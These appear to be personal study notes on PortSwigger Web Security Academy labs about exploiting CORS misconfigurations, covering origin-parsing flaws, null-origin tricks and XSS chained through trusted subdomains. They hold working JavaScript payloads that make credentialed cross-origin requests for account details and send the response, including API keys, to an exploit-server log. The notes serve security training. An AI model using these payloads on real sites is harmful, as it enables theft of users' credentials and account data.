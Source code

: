 ____

![[Pasted image 20250127181648.png]]

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1100170345bf0c80f01209004f0064.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

____
Errors parsing Origin headers

suppose an application grants access to all domains ending in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`
Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

____
The specification for the Origin header supports the value `null`
Using an `<iframe>` with the `sandbox` attribute can bypass certain restrictions and simulate a `null` origin when testing insecure CORS **configurations**
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0ada006c04817488807e76b3005b0066.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location = 'https://exploit-0a9a008904eb743c806375f8019f00e7.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };
</script>">
</iframe>
```

___

## Exploiting XSS via CORS trust relationships - Continued

Given the following request:

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

If the server responds with:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

___

## Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: http://trusted-subdomain.vulnerable-website.com 
Cookie: sessionid=...`
```

The application responds with:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

![[Pasted image 20250129105731.png]]
### XSS
```
http://stock.0aa6008303dee18f80f021c700ac0029.web-security-academy.net/?productId=1%3Cscript%3Ealert()%3C/script%3E&storeId=1
```

```html
<script>
    document.location="http://stock.0aa6008303dee18f80f021c700ac0029.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aa6008303dee18f80f021c700ac0029.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aa90088036ce16b80c920c301c200f2.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

